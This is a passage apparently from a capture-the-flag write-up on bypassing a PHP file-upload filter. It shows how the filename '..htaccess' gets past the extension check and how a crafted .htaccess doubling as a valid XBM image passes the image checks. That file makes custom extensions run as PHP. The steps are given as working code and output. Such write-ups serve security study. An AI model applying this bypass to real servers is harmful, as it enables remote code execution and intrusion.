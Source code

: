 > **`array_pop`: Pop the element off the end of array**
>
> **`array_shift`: Shift an element off the beginning of array**
>
> **`explode`: Split a string by a string**
>
> **`implode`: Join array elements with a string**

Now, we know the server's upload procedures.

- Deny if file name is only extension. (like `.htaccess`, `.txt`)
- Deny if file has disallowed extension.
- Deny if `<?` is included in file contents.
- Deny if file can't pass `exif_imagetype`
- Deny if not `getimagesize` returns `1337 * 1337`
- Else, copy file to your own folder

So, we need make PHP to run our files :>

2.To attack the server, we must upload new `.htaccess` to run PHP with our own extensions. We can focus only shift array **once** when first exploded parts is empty. So, when we make file nams as `..htaccess`, it will be successfuly uploaded as `.htaccess`

```php
php > $name = "..htaccess";
php > print_r(explode(".", $name));
Array
(
    [0] =>
    [1] =>
    [2] => htaccess
)
```

However, `exif_imagetype` functions check first some bytes that is valid image's magic number, we have to fake it. In other words, we should make a file both satisfies image's magic number and `.htaccess` grammer.

In [PHP Manual](https://www.php.net/manual/en/function.exif-imagetype.php#refsect1-function.exif-imagetype-constants), we can find the `.xbm` file (aka X Bitmap), it has a very interesting [format](https://en.wikipedia.org/wiki/X_BitMap) that contains the `#` character in header. So we can construct the following **valid** `.xbm` file, which passes `exif_imagetype` and `getimagesize`:

```tex
#define width 1337
#define height 1337
AddType application/x-httpd-php .xxx
```

```php
php > echo exif_imagetype("..htaccess");
16
php > var_dump(getimagesize("..htaccess"));
php shell code:1:
array(5) {
  [0] =>
  int(1337)
  [1] =>
  int(1337)
  [2] =>
  int(16)
  [3] =>
  string(26) "width="1337" height="1337""
  'mime' =>
  string(9) "image/xbm"
}
```
